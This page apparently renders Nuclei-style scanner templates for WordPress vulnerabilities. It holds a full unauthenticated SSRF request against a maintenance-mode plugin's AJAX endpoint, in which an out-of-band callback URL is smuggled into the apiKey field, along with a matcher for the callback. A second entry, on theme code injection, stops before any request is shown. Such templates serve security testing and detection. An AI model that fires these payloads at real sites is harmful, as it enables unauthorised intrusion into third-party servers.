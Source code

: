 # Under Construction, Coming Soon & Maintenance Mode \< 1.1.2 - Server Side Request Forgery (SSRF)

## Description

- The includes/mc-get_lists.php file used the 'apiKey' POST parameter to create an https URL from it without sanitisation and called it with cURL, leading to a SSRF issue. The issue is exploitable via direct access to the affected file, and ucmm_mc_api AJAX call (available to both authenticated and unauthenticated users).

- severity - high
- tags - ssrf,wp,wp-plugin,wordpress,unauth,wpscan,packetstorm

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/2
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

action=ucmm_mc_api&apiKey=-{{interactsh-url}}%2Ftest%2Ftest%2Ftest%3Fkey1%3Dval1%26dummy%3D

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# WordPress Themes - Code Injection

## Description

- Fifteen WordPress themes are susceptible to code injection using a version of epsilon-framework, due to lack of capability and CSRF nonce checks in AJAX actions.
- severity - high
- tags - wordpress,rce,ssrf,edb,wpscan

## Requests

### Step - 1
